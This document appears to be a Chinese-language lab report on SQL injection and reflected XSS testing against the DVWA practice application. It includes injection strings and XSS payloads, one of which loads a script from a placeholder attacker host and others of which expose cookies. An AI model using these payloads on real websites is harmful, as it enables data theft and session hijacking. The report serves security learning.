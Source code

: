 # 渗透测试

## 环境搭建

直接使用了[在线版本DVWA](https://www.vulnspy.com/dvwa/)直接面去了环境搭建之苦. ~~(白下了好久的OWASP_Broken_Web_Apps_VM_1.2,又卡又没用.)~~

![Alt](./pic/奇怪的知识增加了.jpeg)

## SQL注入测试

简单来讲SQL注入就是采用一些SQL语句上检查的漏洞来进行攻击.采用特殊的输入来对数据库的数据进行查询和修改.比如正常来说,我们只能按照当前用户的ID查找到对应的内容.例如输入1则只能获取对应1的用户的信息.



![](pic/Screen Shot 2020-04-06 at 4.49.46 PM.png)

但是通过对SQL语句进行特殊的测试和修改我们可以得到额外的内容.例如输入1'or'1'='1,我们可以查询到所有用户的信息.



![](pic/Screen Shot 2020-04-06 at 4.50.11 PM.png)

另外的通过适当的修改语句,我们还可以查到非当前功能应该返回的值.例如输入1' and 1=2 union select version(),database() -- 我们可以查询到当前数据库的版本等.



![](pic/Screen Shot 2020-04-06 at 4.50.57 PM.png)



## 跨站脚本攻击测试

跨站脚本攻击共分为三类反射型（Reflected）、存储型（Stored）、DOM型.原理是采用html文本中的具体漏洞来添加弹窗甚至是查询新的信息.这里我们只对反射型的跨站脚本进行实验.

准备好对应的攻击文本.并输入对应的文本框就可以得到如下的内容.

```xml
<script>alert(123)</script>
<script>javascript:alert(document.cookie);</script>
<input onfocus="javascript:alert(document.cookie)" />
<script src="http://attacker/xss.js">confirm(123)</script>
<img src="http://www.baidu.com" onmouseover=prompt(123) />
```

![](pic/Screen Shot 2020-04-06 at 5.05.42 PM.png)





## 如何防范

对应的DVMA有安全性选择,我查看了一下对应的DVMA下不同安全等级的代码规范, 更高级的代码对应的对输入的条件约束更详细,并且对应的逻辑更为的紧密.这个是我们今后设计开发要考虑到的部分.也即设计更为严谨的代码输入规范.



## 参考资料

[在线环境](https://www.vsplate.com/labs.php)

[SQL注入之DVWA平台测试mysql注入](https://www.cnblogs.com/saryli/p/5883915.html)

[DVWA之跨站脚本攻击漏洞测试01-反射型XSS](https://www.jianshu.com/p/c6ed01e6f905)

